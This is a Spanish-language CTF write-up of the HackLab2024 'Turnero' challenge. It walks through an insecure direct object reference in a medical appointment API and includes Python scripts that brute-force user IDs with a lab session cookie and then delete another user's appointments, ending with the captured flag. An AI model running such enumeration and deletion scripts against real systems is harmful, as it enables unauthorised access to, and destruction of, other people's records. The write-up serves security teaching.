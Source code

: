 # M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)

> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

| Integrante        | Facultad                                        |
| :---------------- | :---------------------------------------------- |
| Agustín M. Blanco | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |
| Tomás N. Raspa    | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |

## Índice

1. [Turnero](#Turnero)
	1. [Primera aproximación](#Primera_aproximación)
	2. [Observando en profundidad](#Observando_en_profundidad)
	3. [El ataque](#El_ataque)

---
## Turnero

>Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario `xdalvik` ha reservado demasiados turnos de manera intencionada para incomodar a los demás.
>¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?
>Usuario: `luis`
>Clave: `Luis.4321`


### Primera aproximación

Al ingresar al sistema, tal y como nos fue anticipado por el enunciado, nos encontramos con una pantalla de inicio de sesión para lo que parecería ser un turnero:

![Pantalla LogIn](images/turnero/login.png)

Al ingresar con las credenciales de Luis que nos fueron provistas, obtenemos un panel con su listado de turnos:
![Lista de turnos de Luis](images/turnero/turnosLuis.png)

Jugando un poco con el sistema vemos que a priori lo único que parecería permitir es cerrar la sesión o cancelar un turno. Veamos ahora cómo está interactuando realmente nuestro navegador con el sistema...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al cargar la página con estas herramientas observamos que realmente se está construyendo en dos pasos. Primero se obtiene la estructura, y luego se ~~obtiene la información~~ obtienen los turnos a través de una API
![Requests en DevTools para Mis Turnos](images/turnero/peticionesMisTurnos.png)

Al observar con mayor detenimiento la segunda petición vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a  `api/1/appointments/` que devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información sobre los turnos:
```json
[
    {
        "clinic": "Cl\u00ednica del Sol",
        "date": "2024-10-22T21:41:25.683923",
        "id": 1,
        "specialist": "Dr. Alvarez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b02",
        "date": "2024-10-25T04:41:25.684032",
        "id": 2,
        "specialist": "Dra. Gonzales",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Cl\u00ednica privada",
        "date": "2024-10-22T22:41:25.684079",
        "id": 3,
        "specialist": "Lic. Lopez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Punilla",
        "date": "2024-10-23T22:41:25.684119",
        "id": 4,
        "specialist": "Dr. Lange",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b0 14",
        "date": "2024-10-25T02:41:25.684158",
        "id": 5,
        "specialist": "Dra. Farias",
        "user": "luis",
        "user_id": 1
    }
]
```

Si miramos la información contenida en la respuesta, todos los turnos devueltos pertenecen al `user_id` 1, y, coincidentemente, la petición que habíamos hecho, la palabra `appointments` estaba precedida por un 1. Esto nos lleva hacer la siguiente suposición:
>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API probablemente sea `/api/:user_id/appointments/`, siendo `:user_id` el `id` del usuario que del que se desea obtener la lista de turnos 

Prestemos ~~ahora~~ atención al comportamiento del sistema cuando se desea cancelar un turno.
Al presionar `Cancelar` recibimos un [prompt](https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt) consultando si estamos seguros.
![](images/turnero/alertCancelacionTurno.png)

Al aceptar, vemos que la página se recarga y, si miramos nuevamente las herramientas de desarrollador, vemos que se ejecutaron dos peticiones
![](images/turnero/peticionesCancelarTurno.png)

La segunda petición es identica a todas las anteriores, obtiene el listado de turnos del usuario. Sin embargo, la primera es diferente. Se trata de un [DELETE](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/DELETE) al endpoint `/api/appointments/2` cuya respuesta fue el siguiente JSON: 
```json
{"message":"Turno eliminado correctamente"}
```

Observando el formato de la request, si lo extrapolamos con los datos que conocíamos de la respuesta al endpoint `/api/:user_id/appointments/` podemos sacar la siguiente conclusión:

>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API para cancelar turnos es `/api/appointments/:id_turno`, siendo `:id_turno` el `id` del turno que se desea cancelar

Teniendo toda esta información, veamos ahora cómo podemos hacer para cancelarle los turnos a `xdalvik` :)

### El ataque

Nuestro objetivo es cancelarle los turnos a `xdalvik` sin afectar a los demás usuarios. Sin embargo, para poder cancelar un turno, primero necesitamos su `id` *de usuario*. Para lograr esto, con la información obtenida anteriormente y un poco de pensamiento lateral, llegamos a la siguiente estrategia. Podemos utilizar el endpoint `/api/:id_usuario/appointments/` y un poco de fuerza bruta para encontrar el `id` del usuario correspondiente a `xdalvik`.

```python
from concurrent.futures import ThreadPoolExecutor
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"


def probarId(id):
    res = requests.get(f"{URL_BASE}/api/{id}/appointments", cookies={'session':COOKIE_SESION})
    datos = res.json()

    if datos != []:
        print(f"[X] Usuario encontrado! Usuario: [{datos[0]['user']}]. Id: [{datos[0]['user_id']}]")

if __name__ == '__main__':
    lista = [x for x in range(0,500)]
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(probarId, lista)
```

>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

 Al ejecutar el script obtenemos el siguiente resultado:
 ```
[X] Usuario encontrado! Usuario: [luis]. Id: [1]
[X] Usuario encontrado! Usuario: [analia]. Id: [49]
[X] Usuario encontrado! Usuario: [xdalvik]. Id: [101]
```

Genial! Encontramos el `id` de `xdalvik`! Ahora solo nos falta eliminar sus turnos. Para ello, aprovechando el otro endpoint que habíamos descubierto, podemos armar otro script que elimine todos sus turnos.

```python
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"

def obtenerTurnos(idUsuario):
    res = requests.get(f"{URL_BASE}/api/{idUsuario}/appointments/", cookies={'session':COOKIE_SESION})
	return res.json()

def eliminarTurno(id):
    requests.delete(f"{URL_BASE}/api/appointments/{id}/", cookies={'session':COOKIE_SESION})

if __name__ == '__main__':
    turnosXdalvik = obtenerTurnos(101)
    for turno in turnosXdalvik:
        eliminarTurno(turno["id"])
```
>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

Luego de ejecutar este último script, si recargamos la página en el navegador veremos que hemos obtenido la flag!

![](images/turnero/flag.png)

>Flag: `d27fa3f8fc14ea101603d09436e28bf6`
